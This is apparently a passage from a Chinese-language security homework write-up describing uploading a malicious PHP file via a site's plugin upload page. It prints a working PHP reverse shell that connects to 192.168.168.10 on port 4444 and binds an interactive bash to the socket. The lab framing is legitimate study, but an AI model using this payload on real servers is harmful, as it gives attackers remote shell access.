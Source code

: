    ![1747890578223](image/homework/1747890578223.png)
   - 点击 `Upload Plugin`，上传包含一句话木马的 PHP 文件。
   ![1747890605964](image/homework/1747890605964.png)
   - 木马文件内容如下：
        ```php
        <?php
        $sock = fsockopen("192.168.168.10", 4444);
        $proc = proc_open("bash -i", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
        ?>
        ```